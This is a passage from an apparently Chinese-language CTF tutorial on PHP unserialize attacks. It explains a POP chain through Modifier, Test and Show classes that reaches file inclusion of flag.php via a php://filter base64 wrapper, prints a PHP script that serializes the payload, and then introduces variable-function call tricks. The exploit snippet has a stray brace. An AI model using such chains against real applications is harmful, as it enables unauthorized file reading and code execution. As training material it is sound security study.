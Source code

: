         public function __get($key){
            $function = $this->p;
            return $function();  //存在可控变量的函数调用，可以调用魔法方法__invoke()
        }
    }
    ```

    **利用思路**(逆向分析)

    通读完一遍，我们需要利用Modifier类中append方法利用文件包含来获取flag，回溯到invoke，然后回溯到Test类的get方法，再回溯到Show类的toString方法，最后回溯到Show类的构造方法

    pop链的构建

    ```php
    <?php
    
    class Modifier {
        protected  $var="php://filter/read=convert.base64-encode/resource=flag.php";
        }
    }
    
    class Show{
        public function __construct($file='index.php'){
            $this->str = new Test();
        }
    }
    
    class Test{
        public $p;
        public function __construct(){
            $this->p = new Modifier();
        }
    }
    $a = new Show();
    $a->source= new Show();
    $a=serialize($a);
    echo urlencode($a);
    ?>
    ```

#### 1.3.2 调用类方法Trick

*   **数组调用类方法**

    **可变函数**

    >   参考：[PHP: 可变函数 - Manual](https://www.php.net/manual/zh/functions.variable-functions.php)

    PHP 支持可变函数的概念。这意味着如果一个变量名后有圆括号，PHP    将寻找与变量的值同名的函数，并且尝试执行它。    

    举个例子

    ```php
    class b {
        public function test() {
            ($this->b)();  //可变函数调用
        }
    }
    ```
